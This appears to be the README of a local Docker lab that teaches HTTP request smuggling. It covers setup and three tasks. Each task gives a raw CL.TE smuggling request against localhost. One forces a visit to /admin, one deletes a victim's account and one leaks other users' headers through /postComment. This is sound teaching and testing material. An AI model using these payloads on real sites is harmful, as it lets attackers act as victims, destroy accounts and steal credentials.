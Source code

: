 # Introduction

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

## Learning outcomes

After completing this lab students should be able to:
- Understand HTTP messages
- Explain HTTP headers
- Describe how request smuggling work
- Detect HTTP request smuggling
- Execute HTTP request smuggling
- Explain how HTTP request smuggling can be prevented

Lab consists of 4 moments:
- [Tutorial](tutorial): Introduction to HTTP requests.
- [Task 1](task1): Basics of how HTTP request smuggling uses headers.
- [Task 2](task2): Introduction to how HTTP request smuggling can be used maliciously.
- [Task 3](task3): Theory about the different types of HTTP request smuggling and one attack to leak passwords.

## How to setup the lab
Make sure you have docker installed.
```bash
# Start the frontend and backend servers by running this in ~/lab
docker compose -f docker-compose.yml up -d

# Frontend server will be running at http://localhost:8080/
# Backend server will be running at http://localhost:3000/

# Close the servers by running
docker compose -f docker-compose.yml down -v
```

## Troubleshooting
Make sure you have docker setup correctly. (I, Fabian, got this working with a rootless docker through the terminal. Others setups may vary.)
# Task list


## Task 1 - redirect to /admin

The idea is to use HTTP request smuggling to redirect a victim to another page, making the user perform an action without their consent.

```sh
POST / HTTP/1.1
Host: localhost:8080
Content-Length: 10
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
x-foo: x
```


## Task 2 - redirect to /DeleteAccount

The goal is to make the user unknowingly delete their account by redirecting them to the /DeleteAccount page.

```sh
POST / HTTP/1.1
Host: localhost:8080
Content-Length: 10
Transfer-Encoding: chunked

0

POST /deleteAccount HTTP/1.1
x-foo: x
```


## Task 3 - redirect to /postComment to leak headers

The objective is to leak sensitive headers by redirecting the user to the /postComment page. Having a page that makes persistent and public (aka "reflected" to a page) a POST parameter is indicative of http smuggling header leakage vulnerabilities.

```sh
POST / HTTP/1.1
Host: localhost:8080
Content-Length: 10
Transfer-Encoding: chunked

0

POST /postComment HTTP/1.1
Host: localhost:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

x=
```